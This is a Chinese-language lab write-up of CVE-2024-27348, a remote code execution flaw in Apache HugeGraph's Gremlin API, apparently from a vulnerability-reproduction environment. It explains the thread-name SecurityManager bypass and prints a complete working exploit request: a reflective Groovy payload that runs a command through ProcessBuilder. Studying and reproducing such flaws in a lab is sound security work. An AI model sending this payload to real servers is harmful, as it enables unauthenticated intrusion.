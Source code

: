 # Apache HugeGraph 远程代码执行漏洞（CVE-2024-27348）

Apache HugeGraph 是一款快速、高度可扩展的图数据库。它提供了完整的图数据库功能、出色的性能和企业级的可靠性。

HugeGraph 的 Gremlin API 中存在一个远程代码执行漏洞。Gremlin 是一种图遍历语言，可以在 Groovy、Python 和 Java 等多种编程语言中实现。攻击者能够利用 Gremlin API 在未经身份验证的情况下执行基于 Groovy 的 Gremlin 命令，从而执行任意命令。

理论上，Apache HugeGraph 会使用 SecurityManager 来限制用户提交的 Groovy 脚本。但 SecurityManager 仅检查以“gremlin-server-exec”或“task-worker”开头的线程名称。攻击者通过使用反射修改当前线程名称，可以绕过这一机制，从而实现任意代码执行。

参考链接：

- <https://blog.securelayer7.net/remote-code-execution-in-apache-hugegraph/>
- <https://www.vicarius.io/vsociety/posts/remote-code-execution-vulnerability-in-apache-hugegraph-server-cve-2024-27348>
- <https://github.com/Zeyad-Azima/CVE-2024-27348>

## 环境搭建

执行如下命令启动一个包含漏洞的 HugeGraph 服务器：

```
docker compose up -d
```

环境启动后，可通过 `http://your-ip:8080` 访问 HugeGraph 的 RESTful API。

## 漏洞复现

通过 Gremlin API 接口发送恶意的 Gremlin 查询来执行任意命令：

```
POST /gremlin HTTP/1.1
Host: localhost:8080
Accept-Encoding: gzip, deflate, br
Accept: */*
Accept-Language: en-US;q=0.9,en;q=0.8
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/132.0.0.0 Safari/537.36
Connection: close
Cache-Control: max-age=0
Content-Type: application/json
Content-Length: 777

{
    "gremlin": "Thread thread = Thread.currentThread();Class clz = Class.forName(\"java.lang.Thread\");java.lang.reflect.Field field = clz.getDeclaredField(\"name\");field.setAccessible(true);field.set(thread, \"SL7\");Class processBuilderClass = Class.forName(\"java.lang.ProcessBuilder\");java.lang.reflect.Constructor constructor = processBuilderClass.getConstructor(java.util.List.class);java.util.List command = java.util.Arrays.asList(\"id\");Object processBuilderInstance = constructor.newInstance(command);java.lang.reflect.Method startMethod = processBuilderClass.getMethod(\"start\");org.apache.commons.io.IOUtils.toString(startMethod.invoke(processBuilderInstance).getInputStream());",
    "bindings": {},
    "language": "gremlin-groovy",
    "aliases": {}
}
```

命令执行成功：

![](1.png) 
